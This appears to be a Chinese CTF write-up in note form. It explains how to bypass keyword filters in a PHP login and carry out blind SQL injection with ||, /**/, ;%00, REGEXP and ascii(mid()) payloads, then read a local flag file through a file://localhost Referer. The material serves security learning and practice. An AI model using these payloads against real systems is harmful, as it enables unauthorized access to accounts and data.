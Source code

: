 ```
    $parts = parse_url($url);
    if(empty($parts['host']) || $parts['host'] != 'localhost'){
        die('<h1>The website only can come from localhost!You are not admin!</h1>');
    }
    else{
        readfile($url);
    }
}
?> 

```

主要是这句

```
$query="select user from user where user='$_POST[username]' and passwd='$_POST[passwd]'"
```

明显的单引号注入，但是大部分sql关键字都被过滤了，但是

`or`可以用`||`代替

`空格`可以用`\**\`代替

`# -` ，我们用`;%00`绕过

```
payload: username=\&passwd=||passwd/**/REGEXP/**/"^d";%00
```
![image](http://note.youdao.com/yws/res/1199/13E30A0DA9334B46B8F9BACA596D6ABA)

用sql表示出来是这样，可以看出第一个\闭合了后面的单引号和' passwd=，意思第一对单引号里的内容是`''\' and password='`，后面or语句用正则匹配密码开头第一个字母为d的行

可以用brup一个字一个字的注入

![image](http://note.youdao.com/yws/res/1211/66F79AEBD179433A9B09D7F32A91C540)

然后用 admi/**/n和密码登录

然后用Referer利用file://localhost/var/www/html/flag.php伪造本地读文件即可

https://www.freesion.com/article/1270397693/

https://blog.csdn.net/weixin_45940434/article/details/103722055?fps=1&locationNum=2


## 4月25日注入题

1. 使用fuzz字典发送过滤了绝大多数关键字，#，|（位或），^异或没有被过滤
2. 构建payload
```
username=admin’|(ascii(mid((password)from(1)))>53)#&password=sd 
//判断mid查出的字符的第一个字符的ascii码
MID(column_name,start[,length])   //因为过滤掉空格的原因，才用上述格式
```

这里用的是位或，用异或也可以，或者用或
